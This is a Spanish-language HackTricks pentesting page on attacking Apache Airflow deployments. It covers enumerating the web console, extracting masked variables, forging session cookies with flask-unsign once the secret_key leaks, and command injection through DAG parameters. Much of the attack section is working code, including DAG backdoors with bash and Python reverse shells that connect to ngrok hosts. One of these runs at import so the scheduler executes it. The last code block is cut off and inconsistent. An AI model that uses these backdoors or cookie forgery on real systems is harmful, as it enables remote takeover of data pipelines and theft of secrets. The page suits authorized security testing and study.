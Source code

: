 # Seguridad en Apache Airflow

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

[**Apache Airflow**](https://airflow.apache.org) se utiliza para la **programación y \_orquestación de flujos de datos o flujos de trabajo**. La orquestación de flujos de datos se refiere a la secuenciación, coordinación, programación y gestión de flujos de datos complejos de fuentes diversas. Estos flujos de datos entregan conjuntos de datos listos para ser consumidos ya sea por aplicaciones de inteligencia empresarial y ciencia de datos, modelos de aprendizaje automático que soportan aplicaciones de big data.

Básicamente, Apache Airflow te permitirá **programar la ejecución de código cuando algo** (evento, cron) **suceda**.

## Laboratorio Local

### Docker-Compose

Puedes usar el **archivo de configuración docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lanzar un entorno completo de docker de apache airflow. (Si estás en MacOS asegúrate de asignar al menos 6GB de RAM a la VM de docker).

### Minikube

Una manera fácil de **ejecutar apache airflow** es hacerlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuración de Airflow

Airflow podría almacenar **información sensible** en su configuración o puedes encontrar configuraciones débiles:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC de Airflow

Antes de atacar Airflow deberías entender **cómo funcionan los permisos**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataques

### Enumeración de la Consola Web

Si tienes **acceso a la consola web** podrías acceder a alguna o toda la siguiente información:

* **Variables** (Información sensible personalizada podría estar almacenada aquí)
* **Conexiones** (Información sensible personalizada podría estar almacenada aquí)
* Acceder a ellas en `http://<airflow>/connection/list/`
* [**Configuración**](./#airflow-configuration) (Información sensible como el **`secret_key`** y contraseñas podrían estar almacenadas aquí)
* Listar **usuarios y roles**
* **Código de cada DAG** (que podría contener información interesante)

### Recuperar Valores de Variables

Las variables pueden almacenarse en Airflow para que los **DAGs** puedan **acceder** a sus valores. Es similar a los secretos de otras plataformas. Si tienes **suficientes permisos** puedes acceder a ellas en la GUI en `http://<airflow>/variable/list/`.\
Por defecto, Airflow mostrará el valor de la variable en la GUI, sin embargo, según [**esto**](https://marclamberti.com/blog/variables-with-apache-airflow/) es posible configurar una **lista de variables** cuyo **valor** aparecerá como **asteriscos** en la **GUI**.

![](<../../.gitbook/assets/image (79).png>)

Sin embargo, estos **valores** aún pueden ser **recuperados** a través de **CLI** (necesitas tener acceso a la DB), **ejecución de DAG arbitrario**, **API** accediendo al endpoint de variables (la API necesita estar activada), y **¡incluso la propia GUI!**\
****Para acceder a esos valores desde la GUI simplemente **selecciona las variables** que quieras acceder y **haz clic en Acciones -> Exportar**.\
Otra forma es realizar un **fuerza bruta** al **valor oculto** usando el **filtro de búsqueda** hasta obtenerlo:

![](<../../.gitbook/assets/image (30).png>)

### Escalada de Privilegios

Si la configuración de **`expose_config`** está establecida en **True**, desde el **rol de Usuario** en adelante se puede **leer** la **configuración en la web**. En esta configuración, aparece el **`secret_key`**, lo que significa que cualquier usuario con este valor válido puede **crear su propia cookie firmada para suplantar cualquier otra cuenta de usuario**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Puerta trasera en DAG (RCE en trabajador de Airflow)

Si tienes **acceso de escritura** al lugar donde se **guardan los DAGs**, puedes simplemente **crear uno** que te enviará una **shell inversa.**\
Ten en cuenta que esta shell inversa se ejecutará dentro de un **contenedor de trabajador de airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Puerta trasera en DAG (RCE en el programador de Airflow)

Si configuras algo para ser **ejecutado en la raíz del código**, en el momento de escribir esto, será **ejecutado por el programador** unos segundos después de colocarlo dentro de la carpeta de DAGs.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Creación de DAG

Si logras **comprometer una máquina dentro del clúster de DAG**, puedes crear nuevos **scripts de DAGs** en la carpeta `dags/` y estos serán **replicados en el resto de las máquinas** dentro del clúster de DAG.

### Inyección de Código en DAG

Cuando ejecutas un DAG desde la GUI puedes **pasar argumentos** al mismo.\
Por lo tanto, si el DAG no está codificado correctamente podría ser **vulnerable a la Inyección de Comandos.**\
Eso es lo que ocurrió en este CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Todo lo que necesitas saber para **empezar a buscar inyecciones de comandos en DAGs** es que los **parámetros** se **acceden** con el código **`dag_run.conf.get("param_name")`**.

Además, la misma vulnerabilidad podría ocurrir con las **variables** (nota que con suficientes privilegios podrías **controlar el valor de las variables** en la GUI). Las variables se **acceden con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si se utilizan, por ejemplo, dentro de un comando bash, podrías realizar una inyección de comandos.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
